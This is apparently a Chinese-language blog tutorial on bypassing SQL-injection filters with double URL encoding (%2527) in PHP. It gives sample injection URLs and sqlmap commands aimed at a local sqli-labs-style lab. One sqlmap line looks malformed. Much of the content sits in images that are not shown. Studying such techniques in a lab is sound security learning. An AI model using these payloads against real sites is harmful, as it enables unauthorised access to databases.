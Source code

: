 ```yaml
---
layout: post
title: 1.4.2-SQL注入防御绕过-二次编码注入
categories:
  - - 安全
    - web安全
tags: 
  - sql注入
abbrlink: 41038608
date: 2018-07-06 00:00:00
description: sql注入、二次编码注入
---
```


## 01 二次编码注入原理

+，=，&，；  
原始数据不适合传输  

	index.php?id=1&name=admin&pwd=123

	name=admin=
	name=admin&

	admin=

	php urldecode('%3d') --> =

	// 如果这样的参数会引起歧义

php会自动解码  

二次编码注入：  
urldecode()与PHP本身处理编码时，两者配合失误，可构造数据消灭\  

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/10/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/10/02.png)




## 02 二次编码注入方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/10/03.png)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/10/04.png)


	http://127.0.0.1/Less-1/double.php?id=1%2527 // 测试注入点
	http://127.0.0.1/Less-1/double.php?id=1%2527%20order%20by%203 //测试长度
	http://127.0.0.1/Less-1/double.php?id=1%27 order by 4--+
	http://127.0.0.1/


	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%25"

	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%2527" --current--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/10/05.png)

